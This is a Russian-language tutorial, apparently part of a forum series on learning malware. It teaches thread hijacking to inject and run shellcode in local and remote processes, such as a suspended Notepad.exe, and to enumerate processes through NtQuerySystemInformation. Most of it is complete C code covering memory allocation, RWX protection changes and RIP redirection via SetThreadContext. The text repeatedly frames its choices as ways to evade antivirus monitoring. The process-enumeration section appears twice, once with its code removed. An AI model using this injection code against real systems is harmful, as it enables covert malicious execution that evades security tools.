printf("[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Пример использования
Поскольку RunViaClassicThreadHijacking требует дескриптор потока, главная функция должна будет его предоставить. Как уже упоминалось ранее, целевой поток должен находиться в приостановленном состоянии, чтобы RunViaClassicThreadHijacking успешно похитил поток.
Для создания нового потока будет использован WinAPI CreateThread. Новый поток должен выглядеть максимально безобидно, чтобы избежать обнаружения. Это можно достичь, создав безобидную функцию, которая будет выполняться этим новым потоком.
Следующим шагом является приостановка нового потока, чтобы GetThreadContext завершился успешно. Это можно сделать двумя способами:
- Передача флага CREATE_SUSPENDED в параметр dwCreationFlags CreateThread. Этот флаг создает поток в приостановленном состоянии.
- Создание обычного потока, но его последующая приостановка с помощью WinAPI SuspendThread.
Главная Функция
В главной функции будет создан безобидный поток, который сначала будет выполнять безобидную заглушечную функцию, которую затем будут похищать с использованием RunViaClassicThreadHijacking для выполнения полезной нагрузки.
C:
int main() {
HANDLE hThread = NULL;
// Создание безобидного потока в приостановленном состоянии
hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE) &DummyFunction, NULL, CREATE_SUSPENDED, NULL);
if (hThread == NULL) {
printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Похищение созданного потока
if (!RunViaClassicThreadHijacking(hThread, Payload, sizeof(Payload))) {
return -1;
}
// Возобновление приостановленного потока, чтобы он выполнил наш шеллкод
ResumeThread(hThread);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Демонстрация
mainCRTStartup - это главный поток, выполняющий главную функцию, а поток DummyFunction - это поток, который мы похищаем.
Успешный коннект с шеллом
Похищение Потока - Создание Удаленного Потока
Давайте теперь попробуем ту же технику для удаленного процесса, а не для локального.
Еще одно заметное различие заключается в том, что жертвенный поток не будет создан в удаленном процессе. Хотя это можно сделать с помощью вызова WinAPI CreateRemoteThread, это функция, которая часто злоупотребляется, и поэтому она активно мониторится системами безопасности.
Лучший подход заключается в создании жертвенного процесса в приостановленном состоянии с помощью CreateProcess, который создает все свои потоки в приостановленном состоянии, что позволяет их похищать.
Шаги Похищения Удаленного Потока
В этом разделе описываются необходимые шаги для выполнения похищения потока, находящегося в удаленном процессе.
WinAPI CreateProcess CreateProcess
Это мощный и важный WinAPI, имеющий различные применения. Для того чтобы пользователи имели твердое понимание, ниже объяснены важные параметры функции.
C:
BOOL CreateProcessA(
[in, optional] LPCSTR lpApplicationName,
[in, out, optional] LPSTR lpCommandLine,
[in, optional] LPSECURITY_ATTRIBUTES lpProcessAttributes,
[in, optional] LPSECURITY_ATTRIBUTES lpThreadAttributes,
[in] BOOL bInheritHandles,
[in] DWORD dwCreationFlags,
[in, optional] LPVOID lpEnvironment,
[in, optional] LPCSTR lpCurrentDirectory,
[in] LPSTARTUPINFOA lpStartupInfo,
[out] LPPROCESS_INFORMATION lpProcessInformation
);Параметры lpApplicationName и lpCommandLine представляют собой имя процесса и его аргументы командной строки соответственно. Например, lpApplicationName может быть C:\Windows\System32\cmd.exe, а lpCommandLine может быть /k whoami.
В качестве альтернативы, lpApplicationName может быть установлен в NULL, но lpCommandLine может содержать имя процесса и его аргументы, C:\Windows\System32\cmd.exe /k whoami. Оба параметра помечены как необязательные, что означает, что для новосозданного процесса не требуются никакие аргументы.
dwCreationFlags - это параметр, который контролирует класс приоритета и создание процесса. Возможные значения для этого параметра можно найти здесь (примечание: ссылка не предоставлена в исходном тексте). Например, используя флаг CREATE_SUSPENDED, создается процесс в приостановленном состоянии.
lpStartupInfo - это указатель на STARTUPINFO, который содержит детали, связанные с созданием процесса. Единственный элемент, который нужно заполнить, - это DWORD cb, который представляет собой размер структуры в байтах.
lpProcessInformation - это выходной параметр, который возвращает структуру PROCESS_INFORMATION. Структура PROCESS_INFORMATION представлена ниже.
C:
typedef struct _PROCESS_INFORMATION {
HANDLE hProcess; // Дескриптор только что созданного процесса.
HANDLE hThread; // Дескриптор основного потока только что созданного процесса.
DWORD dwProcessId; // Идентификатор процесса
DWORD dwThreadId; // Идентификатор основного потока
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;Эта структура содержит информацию о новосозданном процессе и его основном потоке.
Использование переменных окружения
Последний оставшийся компонент для создания процесса - это определение полного пути к процессу.
Жертвенный процесс будет создан на основе бинарного файла, находящегося в каталоге System32. Можно предположить, что путь будет C:\Windows\System32 и жестко закодировать это значение, но всегда безопаснее программно определить путь. Д
ля этого будет использована функция WinAPI GetEnvironmentVariableA.
GetEnvironmentVariableA извлекает значение указанной переменной окружения, которой в данном случае будет "WINDIR".
"WINDIR" - это переменная окружения, которая указывает на каталог установки операционной системы Windows. На большинстве систем этот каталог находится в "C:\Windows". Значение переменной окружения "WINDIR" можно получить, введя "echo %WINDIR%" в командной строке или просто введя %WINDIR% в строке поиска проводника файлов.
C:
DWORD GetEnvironmentVariableA(
[in, optional] LPCSTR lpName,
[out, optional] LPSTR lpBuffer,
[in] DWORD nSize
);Функция создания жертвенного процесса
Функция CreateSuspendedProcess используется для создания жертвенного процесса в приостановленном состоянии. Она требует 4 аргумента:
- lpProcessName - имя процесса для создания.
- dwProcessId - указатель на DWORD, который получает идентификатор процесса.
- hProcess - указатель на HANDLE, который получает дескриптор процесса.
- hThread - указатель на HANDLE, который получает дескриптор потока.
C:
BOOL CreateSuspendedProcess(IN LPCSTR lpProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
CHAR lpPath[MAX_PATH * 2];
CHAR WnDr[MAX_PATH];
STARTUPINFO Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
// Очистка структур, устанавливая значения членов в 0
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
// Установка размера структуры
Si.cb = sizeof(STARTUPINFO);
// Получение значения переменной окружения %WINDIR%
if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Создание полного пути к целевому процессу
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
printf("\n\t[i] Running : \"%s\" ... ", lpPath);
if (!CreateProcessA(
NULL, // Нет имени модуля (использовать командную строку)
lpPath, // Командная строка
NULL, // Дескриптор процесса не наследуется
NULL, // Дескриптор потока не наследуется
FALSE, // Установить наследование дескриптора в FALSE
CREATE_SUSPENDED, // Флаг создания
NULL, // Использовать окружение родителя
NULL, // Использовать рабочий каталог родителя
&Si, // Указатель на структуру STARTUPINFO
&Pi)) { // Указатель на структуру PROCESS_INFORMATION
printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
return FALSE;
}
printf("[+] DONE \n");
// Заполнение выходных параметров результатами CreateProcessA
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
// Проверка, что получены все необходимые значения
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}Функция внедрения в удаленный процесс
Следующим шагом после создания целевого процесса в приостановленном состоянии является внедрение полезной нагрузки с использованием функции InjectShellcodeToRemoteProcess.
Полезная нагрузка записывается только в удаленный процесс, но не выполняется. Базовый адрес затем сохраняется для последующего использования через похищение потока.
C:
BOOL InjectShellcodeToRemoteProcess(IN HANDLE hProcess, IN PBYTE pShellcode, IN SIZE_T sSizeOfShellcode, OUT PVOID* ppAddress) {
SIZE_T sNumberOfBytesWritten = NULL;
DWORD dwOldProtection = NULL;
*ppAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (*ppAddress == NULL) {
printf("\n\t[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[i] Allocated Memory At : 0x%p \n", *ppAddress);
if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
printf("\n\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
return FALSE;
}
if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("\n\t[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Функция похищения удаленного потока
После создания приостановленного процесса и записи полезной нагрузки в удаленный процесс, заключительный этап заключается в использовании дескриптора потока, возвращенного CreateSuspendedProcess, чтобы выполнить похищение потока. Эта часть такая же, как и та, что демонстрировалась в части похищения локального потока.
В качестве итога, функция GetThreadContext используется для извлечения контекста потока, обновления регистра RIP, указывающего на записанную полезную нагрузку, вызова SetThreadContext для обновления контекста потока и, наконец, использования ResumeThread для выполнения полезной нагрузки.
Все это демонстрируется в пользовательской функции ниже, HijackThread, которая принимает два аргумента:
- hThread - поток для похищения.
- pAddress - указатель на базовый адрес полезной нагрузки, которая будет выполнена.
C:
BOOL HijackThread(IN HANDLE hThread, IN PVOID pAddress) {
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_CONTROL
};
// получение исходного контекста потока
if (!GetThreadContext(hThread, &ThreadCtx)) {
printf("\n\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
// обновление указателя на следующую инструкцию, чтобы он был равен адресу нашего шеллкода
ThreadCtx.Rip = pAddress;
// установка нового обновленного контекста потока
if (!SetThreadContext(hThread, &ThreadCtx)) {
printf("\n\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
// возобновление приостановленного потока, таким образом запуская нашу полезную нагрузку
ResumeThread(hThread);
WaitForSingleObject(hThread, INFINITE);
return TRUE;
}Демо
В этой демонстрации используется Notepad.exe в качестве жертвенного процесса, его поток похищается и выполняется shellcode от Msfvenom для запуска калькулятора.
Перечисление локальных потоков
До сих пор, когда производилось похищение локального потока, целевой поток создавался с использованием CreateThread, и его контекст изменялся. В этой части будет продемонстрирован альтернативный метод, при котором работающие потоки системы перечисляются с помощью CreateToolhelp32Snapshot, а затем похищаются.
Перечисление потоков
Вспомните использование CreateToolhelp32Snapshot из предыдущих частей, где WinAPI использовался для получения снимка процессов системы. В этом модуле используется тот же WinAPI, но с другим значением для параметра dwFlags.
Чтобы перечислить работающие потоки системы, необходимо указать флаг TH32CS_SNAPTHREAD. Используя этот флаг, CreateToolhelp32Snapshot возвращает структуру THREADENTRY32, показанную ниже.
C:
typedef struct tagTHREADENTRY32 {
DWORD dwSize; // sizeof(THREADENTRY32)
DWORD cntUsage;
DWORD th32ThreadID; // ID потока
DWORD th32OwnerProcessID; // PID процесса, создавшего поток.
LONG tpBasePri;
LONG tpDeltaPri;
DWORD dwFlags;
} THREADENTRY32;Каждый работающий поток имеет свою собственную структуру THREADENTRY32 на захваченном снимке.
Определение владельца потока согласно документации Microsoft:
Чтобы определить потоки, которые принадлежат конкретному процессу, сравните его идентификатор процесса с членом th32OwnerProcessID структуры THREADENTRY32 при перечислении потоков.
Другими словами, чтобы определить процесс, к которому принадлежит поток, сравните целевой PID с THREADENTRY32.th32OwnerProcessID, который является PID процесса, создавшего поток.
Если PID совпадают, то в настоящее время перечисляемый поток принадлежит целевому процессу.
Необходимые WinAPI
Будут использованы следующие WinAPI для выполнения перечисления потока:
- CreateToolhelp32Snapshot - используется с флагом TH32CS_SNAPTHREAD для получения снимка всех потоков, работающих в системе.
- Thread32First - используется для получения информации о первом потоке, захваченном на снимке.
- Thread32Next - используется для получения информации о следующем потоке на захваченном снимке.
- OpenThread - используется для открытия дескриптора целевого потока с использованием его идентификатора потока.
- GetCurrentProcessId - используется для получения PID локального процесса. Поскольку локальный процесс является целевым процессом, требуется его PID, чтобы определить, принадлежат ли потоки этому процессу.
Прежде чем погружаться в код перечисления потоков, важно понять концепцию рабочих потоков. Хотя CreateThread не используется в коде, операционная система Windows создаст рабочие потоки в процессе. Эти рабочие потоки являются допустимыми целями для похищения потока. Пример этих рабочих потоков можно увидеть ниже.
Потоки, показанные на изображении выше, например, ntdll.dll!EtwNotificationRegister+0x2d0, создаются операционной системой для выполнения функции EtwNotificationRegister, которая связана с ETW - трассировкой событий для Windows.
ETW будет объяснено в будущих модулях, но на данный момент достаточно понимать, что эта функция используется для уведомления операционной системы, когда в процессе происходит определенное событие.
Функция перечисления потоков GetLocalThreadHandle использует ранее упомянутые шаги для выполнения перечисления потоков.
Она принимает 3 аргумента:
- dwMainThreadId - Идентификатор главного потока локального процесса.
- dwThreadId - Указатель на DWORD, который получает ID потока, который можно захватить.
- hThread - Указатель на HANDLE, который получает дескриптор для потока, который можно захватить.
C:
BOOL GetLocalThreadHandle(IN DWORD dwMainThreadId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {
// Получение ID локального процесса
DWORD dwProcessId = GetCurrentProcessId();
HANDLE hSnapShot = NULL;
THREADENTRY32 Thr = {
.dwSize = sizeof(THREADENTRY32)
};
// Создание снимка потоков текущего запущенного процесса
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE) {
printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Получение информации о первом потоке, обнаруженном в снимке.
if (!Thread32First(hSnapShot, &Thr)) {
printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Если PID потока равен PID целевого процесса, то
// этот поток выполняется в целевом процессе
// 'Thr.th32ThreadID != dwMainThreadId' используется для исключения главного потока нашего локального процесса
if (Thr.th32OwnerProcessID == dwProcessId && Thr.th32ThreadID != dwMainThreadId) {
// Открытие дескриптора потока
*dwThreadId = Thr.th32ThreadID;
*hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);
if (*hThread == NULL)
printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());
break;
}
// Пока в снимке остаются потоки
} while (Thread32Next(hSnapShot, &Thr));
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwThreadId == NULL || *hThread == NULL)
return FALSE;
return TRUE;
}Функция локального перехвата потока
После получения действительного дескриптора целевого потока его можно передать в функцию HijackThread.
WinAPI SuspendThread будет использован для приостановки потока, а затем GetThreadContext и SetThreadContext будут использованы для обновления регистра RIP, чтобы он указывал на базовый адрес загруженного полезного кода. Кроме того, перед перехватом потока полезный код должен быть записан в память локального процесса.
C:
BOOL HijackThread(HANDLE hThread, PVOID pAddress) {
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_ALL
};
SuspendThread(hThread);
if (!GetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
ThreadCtx.Rip = pAddress;
if (!SetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("\t[#] Нажмите <Enter> для выполнения ... ");
getchar();
ResumeThread(hThread);
WaitForSingleObject(hThread, INFINITE);
return TRUE;
}Демонстрация
Обратите внимание, что выполнение полезного кода может занять некоторое время, так как перехваченный поток не является главным потоком и не выполняется непрерывно.
Кроме того, в зависимости от полезной нагрузки, локальный процесс может завершиться сбоем после выполнения. Например, если полезная нагрузка предназначена для сервера управления и контроля, процесс будет продолжать работу. Однако, если использовался shellcode calc от Msfvenom, процесс завершится сбоем, потому что shellcode calc от Msfvenom завершает вызывающий поток.
Перечисление удаленных потоков
В этой части рассматривается использование CreateToolhelp32Snapshot для перечисления потоков удаленного процесса. В GetLocalThreadHandle, показанном ранее, внесены небольшие изменения, чтобы сделать его работу с удаленными потоками.
Логика остается прежней, где используются CreateToolhelp32Snapshot, Thread32First и Thread32Next для перечисления потоков целевого процесса.
Отличие при нападении на удаленные процессы заключается в том, что основной поток также может быть целью для захвата.
Функция перечисления удаленных потоков
GetRemoteThreadhandle перечисляет потоки удаленного процесса. Он принимает 3 аргумента:
dwProcessId - это PID целевого процесса. Как его получить, читайте в теме Определение PID нужного процесса, или перечисления процессов | Цикл статей "Изучение вредоносных программ" этого цикла статей.
dwThreadId - указатель на DWORD, который получит идентификатор потока целевого процесса.
hThread - указатель на HANDLE, который получит дескриптор удаленного потока.
Дополнительное отличие в реализации функции GetRemoteThreadhandle заключается в том, что нужно предоставить целевой PID.
В случае целевого процесса, который работает локально, это не требуется, потому что GetCurrentProcessId WinAPI извлекает PID локального процесса.
C:
BOOL GetRemoteThreadhandle(IN DWORD dwProcessId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {
HANDLE hSnapShot = NULL;
THREADENTRY32 Thr = {
.dwSize = sizeof(THREADENTRY32)
};
// Получение снимка потоков текущего выполняемого процесса
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE) {
printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Получение информации о первом потоке, найденном в снимке.
if (!Thread32First(hSnapShot, &Thr)) {
printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Если PID потока равен PID целевого процесса, то
// этот поток работает внутри целевого процесса
if (Thr.th32OwnerProcessID == dwProcessId){
*dwThreadId = Thr.th32ThreadID;
*hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);
if (*hThread == NULL)
printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());
break;
}
// Пока в снимке остаются потоки
} while (Thread32Next(hSnapShot, &Thr));
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwThreadId == NULL || *hThread == NULL)
return FALSE;
return TRUE;
}Функция Перехвата удаленных потоков
Эта часть аналогична функции перехвата, рассмотренной в предыдущих модулях. Получите дескриптор удаленного процесса, внедрите полезную нагрузку в удаленный процесс, а затем выполните захват потока.
C:
BOOL HijackThread(IN HANDLE hThread, IN PVOID pAddress) {
CONTEXT ThreadCtx = {
.ContextFlags = CONTEXT_ALL
};
// Приостановите поток
SuspendThread(hThread);
if (!GetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
ThreadCtx.Rip = pAddress;
if (!SetThreadContext(hThread, &ThreadCtx)) {
printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("\t[#] Нажмите <Enter> для выполнения ... ");
getchar();
ResumeThread(hThread);
WaitForSingleObject(hThread, INFINITE);
return TRUE;
}Демонстрация
Получение PID целевого процесса. В данном случае целевым процессом является Notepad.exe.
Внедрение полезной нагрузки и захватит идентификатор потока 7136. Стек потока показывает, что адрес полезной нагрузки — это следующая задача для выполнения.
В итоге, полезная нагрузка выполнена.
Определение PID нужного процесса, или перечисления процессов
Тема перечисления процессов затрагивалась здесь:Иньекция в процесс | Цикл статей "Изучение вредоносных программ"
Также Изучаем технику Thread Hijacking | Цикл статей "Изучение вредоносных программ для проведения атаки Thread Hijacking в удаленный процесс необходимо получить ID целевого процесса.
Давайте попробуем это сделать, что-бы не привлекать внимание антивирусов.)
Предлагаю использовать функцию NtQuerySystemInformation.
NtQuerySystemInformation экспортируется из модуля ntdll.dll, поэтому для его использования потребуется GetModuleHandle и GetProcAddress.
Документация Microsoft по NtQuerySystemInformation показывает, что он способен возвращать много информации о системе. Основное внимание этой статьи будет уделено его использованию для перечисления процессов.
Получение адреса NtQuerySystemInformation
Как было упомянуто ранее, для получения адреса NtQuerySystemInformation из ntdll.dll необходимы GetProcAddress и GetModuleHandle.
Параметры NtQuerySystemInformation
Параметры NtQuerySystemInformation показаны ниже.
SystemInformationClass - Определяет, какой тип системной информации возвращает функция.
SystemInformation - Указатель на буфер, который получит запрошенную информацию. Возвращенная информация будет в форме структуры, тип которой указан в соответствии с параметром SystemInformationClass.
SystemInformationLength - Размер буфера, на который указывает параметр SystemInformation, в байтах.
ReturnLength - Указатель на переменную ULONG, которая получит фактический размер информации, записанной в SystemInformation.
Поскольку задача заключается в перечислении процессов, будет использован флаг SystemProcessInformation. При использовании этого флага функция вернет массив структур SYSTEM_PROCESS_INFORMATION (через параметр SystemInformation), по одной для каждого процесса, работающего в системе.
Структура SYSTEM_PROCESS_INFORMATION
Следующим шагом будет изучение документации Microsoft, чтобы понять, как выглядит структура SYSTEM_PROCESS_INFORMATION.
Основное внимание будет уделено полям UNICODE_STRING ImageName, которое содержит имя процесса, и UniqueProcessId, которое является идентификатором процесса.
Кроме того, поле NextEntryOffset будет использовано для перехода к следующему элементу в возвращаемом массиве.
Поскольку вызов NtQuerySystemInformation с флагом SystemProcessInformation вернет массив структур SYSTEM_PROCESS_INFORMATION неизвестного размера, NtQuerySystemInformation должен быть вызван дважды. Первый вызов получит размер массива, который будет использован для выделения буфера, а затем второй вызов использует выделенный буфер.
Ожидается, что первый вызов NtQuerySystemInformation завершится с ошибкой STATUS_INFO_LENGTH_MISMATCH (0xC0000004), так как в нем передаются недействительные параметры, просто для получения размера массива.
Перечисление Процессов
Теперь, когда массив успешно получен, следующим шагом будет проход по нему что-бы найти нужный ImageName.
Buffer, который содержит имя процесса. На каждой итерации будет производиться сравнение имени процесса с целевым именем процесса.
Чтобы получить доступ к каждому элементу типа SYSTEM_PROCESS_INFORMATION в массиве, необходимо использовать член NextEntryOffset. Чтобы найти адрес следующего элемента, добавьте адрес предыдущего элемента к NextEntryOffset. Это демонстрируется в приведенном ниже фрагменте кода.
Освобождение выделенной памяти
Перед переходом SystemProcInfo к новому элементу в массиве необходимо сохранить начальный адрес выделенной памяти, чтобы освободить его позже. Следовательно, перед началом цикла адрес необходимо сохранить во временной переменной.
Недокументированная часть NtQuerySystemInformation
NtQuerySystemInformation остается в значительной степени недокументированным, и большая часть его до сих пор остается неизвестной. Например, обратите внимание на члены Reserved в SYSTEM_PROCESS_INFORMATION.
Полный код выполнения перечисления процессов с использованием NtQuerySystemInformation представлен ниже:
Этот код использует NtQuerySystemInformation, чтобы перечислить все процессы, работающие в системе, и затем ищет определенный процесс на основе его имени (szProcName). Если такой процесс найден, функция возвращает его идентификатор процесса (pdwPid) и дескриптор (phProcess). Если процесс не найден или произошла какая-либо другая ошибка, функция возвращает FALSE.
Демонстрация:
Также Изучаем технику Thread Hijacking | Цикл статей "Изучение вредоносных программ для проведения атаки Thread Hijacking в удаленный процесс необходимо получить ID целевого процесса.
Давайте попробуем это сделать, что-бы не привлекать внимание антивирусов.)
Предлагаю использовать функцию NtQuerySystemInformation.
NtQuerySystemInformation экспортируется из модуля ntdll.dll, поэтому для его использования потребуется GetModuleHandle и GetProcAddress.
Документация Microsoft по NtQuerySystemInformation показывает, что он способен возвращать много информации о системе. Основное внимание этой статьи будет уделено его использованию для перечисления процессов.
Получение адреса NtQuerySystemInformation
Как было упомянуто ранее, для получения адреса NtQuerySystemInformation из ntdll.dll необходимы GetProcAddress и GetModuleHandle.
C:
// Указатель на функцию
typedef NTSTATUS (NTAPI* fnNtQuerySystemInformation)(
SYSTEM_INFORMATION_CLASS SystemInformationClass,
PVOID SystemInformation,
ULONG SystemInformationLength,
PULONG ReturnLength
);
fnNtQuerySystemInformation pNtQuerySystemInformation = NULL;
// Получение адреса NtQuerySystemInformation
pNtQuerySystemInformation = (fnNtQuerySystemInformation)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQuerySystemInformation");
if (pNtQuerySystemInformation == NULL) {
printf("[!] GetProcAddress завершилась с ошибкой: %d\n", GetLastError());
return FALSE;
}Параметры NtQuerySystemInformation
Параметры NtQuerySystemInformation показаны ниже.
C:
__kernel_entry NTSTATUS NtQuerySystemInformation(
[in] SYSTEM_INFORMATION_CLASS SystemInformationClass,
[in, out] PVOID SystemInformation,
[in] ULONG SystemInformationLength,
[out, optional] PULONG ReturnLength
);SystemInformationClass - Определяет, какой тип системной информации возвращает функция.
SystemInformation - Указатель на буфер, который получит запрошенную информацию. Возвращенная информация будет в форме структуры, тип которой указан в соответствии с параметром SystemInformationClass.
SystemInformationLength - Размер буфера, на который указывает параметр SystemInformation, в байтах.
ReturnLength - Указатель на переменную ULONG, которая получит фактический размер информации, записанной в SystemInformation.
Поскольку задача заключается в перечислении процессов, будет использован флаг SystemProcessInformation. При использовании этого флага функция вернет массив структур SYSTEM_PROCESS_INFORMATION (через параметр SystemInformation), по одной для каждого процесса, работающего в системе.
Структура SYSTEM_PROCESS_INFORMATION
Следующим шагом будет изучение документации Microsoft, чтобы понять, как выглядит структура SYSTEM_PROCESS_INFORMATION.
C:
typedef struct _SYSTEM_PROCESS_INFORMATION {
ULONG NextEntryOffset;
ULONG NumberOfThreads;
BYTE Reserved1[48];
UNICODE_STRING ImageName;
KPRIORITY BasePriority;
HANDLE UniqueProcessId;
PVOID Reserved2;
ULONG HandleCount;
ULONG SessionId;
PVOID Reserved3;
SIZE_T PeakVirtualSize;
SIZE_T VirtualSize;
ULONG Reserved4;
SIZE_T PeakWorkingSetSize;
SIZE_T WorkingSetSize;
PVOID Reserved5;
SIZE_T QuotaPagedPoolUsage;
PVOID Reserved6;
SIZE_T QuotaNonPagedPoolUsage;
SIZE_T PagefileUsage;
SIZE_T PeakPagefileUsage;
SIZE_T PrivatePageCount;
LARGE_INTEGER Reserved7[6];
} SYSTEM_PROCESS_INFORMATION;Основное внимание будет уделено полям UNICODE_STRING ImageName, которое содержит имя процесса, и UniqueProcessId, которое является идентификатором процесса.
Кроме того, поле NextEntryOffset будет использовано для перехода к следующему элементу в возвращаемом массиве.
Поскольку вызов NtQuerySystemInformation с флагом SystemProcessInformation вернет массив структур SYSTEM_PROCESS_INFORMATION неизвестного размера, NtQuerySystemInformation должен быть вызван дважды. Первый вызов получит размер массива, который будет использован для выделения буфера, а затем второй вызов использует выделенный буфер.
Ожидается, что первый вызов NtQuerySystemInformation завершится с ошибкой STATUS_INFO_LENGTH_MISMATCH (0xC0000004), так как в нем передаются недействительные параметры, просто для получения размера массива.
C:
ULONG uReturnLen1 = NULL,
uReturnLen2 = NULL;
PSYSTEM_PROCESS_INFORMATION SystemProcInfo = NULL;
NTSTATUS STATUS = NULL;
// Первый вызов NtQuerySystemInformation
// Он завершится ошибкой STATUS_INFO_LENGTH_MISMATCH
// Но он предоставит информацию о том, сколько памяти необходимо выделить (uReturnLen1)
pNtQuerySystemInformation(SystemProcessInformation, NULL, NULL, &uReturnLen1);
// Выделение достаточного буфера для возвращаемого массива структур `SYSTEM_PROCESS_INFORMATION`
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION) HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (SIZE_T)uReturnLen1);
if (SystemProcInfo == NULL) {
printf("[!] HeapAlloc завершилась с ошибкой: %d\n", GetLastError());
return FALSE;
}
// Второй вызов NtQuerySystemInformation
// Вызываем NtQuerySystemInformation с правильными аргументами, результат будет сохранен в 'SystemProcInfo'
STATUS = pNtQuerySystemInformation(SystemProcessInformation, SystemProcInfo, uReturnLen1, &uReturnLen2);
if (STATUS != 0x0) {
printf("[!] NtQuerySystemInformation завершилась с ошибкой: 0x%0.8X \n", STATUS);
return FALSE;
}Перечисление Процессов
Теперь, когда массив успешно получен, следующим шагом будет проход по нему что-бы найти нужный ImageName.
Buffer, который содержит имя процесса. На каждой итерации будет производиться сравнение имени процесса с целевым именем процесса.
Чтобы получить доступ к каждому элементу типа SYSTEM_PROCESS_INFORMATION в массиве, необходимо использовать член NextEntryOffset. Чтобы найти адрес следующего элемента, добавьте адрес предыдущего элемента к NextEntryOffset. Это демонстрируется в приведенном ниже фрагменте кода.
C:
// 'SystemProcInfo' теперь представляет новый элемент в массиве
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)((ULONG_PTR)SystemProcInfo + SystemProcInfo->NextEntryOffset);Освобождение выделенной памяти
Перед переходом SystemProcInfo к новому элементу в массиве необходимо сохранить начальный адрес выделенной памяти, чтобы освободить его позже. Следовательно, перед началом цикла адрес необходимо сохранить во временной переменной.
C:
// Поскольку мы будем изменять 'SystemProcInfo', мы сохраняем его начальное значение перед while-циклом, чтобы освободить его позже
pValueToFree = SystemProcInfo;Недокументированная часть NtQuerySystemInformation
NtQuerySystemInformation остается в значительной степени недокументированным, и большая часть его до сих пор остается неизвестной. Например, обратите внимание на члены Reserved в SYSTEM_PROCESS_INFORMATION.
Полный код выполнения перечисления процессов с использованием NtQuerySystemInformation представлен ниже:
C:
BOOL GetRemoteProcessHandle(LPCWSTR szProcName, DWORD* pdwPid, HANDLE* phProcess) {
fnNtQuerySystemInformation pNtQuerySystemInformation = NULL;
ULONG uReturnLen1 = NULL,
uReturnLen2 = NULL;
PSYSTEM_PROCESS_INFORMATION SystemProcInfo = NULL;
NTSTATUS STATUS = NULL;
PVOID pValueToFree = NULL;
pNtQuerySystemInformation = (fnNtQuerySystemInformation)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQuerySystemInformation");
if (pNtQuerySystemInformation == NULL) {
printf("[!] GetProcAddress завершилась с ошибкой: %d\n", GetLastError());
return FALSE;
}
pNtQuerySystemInformation(SystemProcessInformation, NULL, NULL, &uReturnLen1);
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (SIZE_T)uReturnLen1);
if (SystemProcInfo == NULL) {
printf("[!] HeapAlloc завершилась с ошибкой: %d\n", GetLastError());
return FALSE;
}
// Так как мы будем изменять 'SystemProcInfo', мы сохраняем его начальное значение перед циклом while, чтобы освободить его позже
pValueToFree = SystemProcInfo;
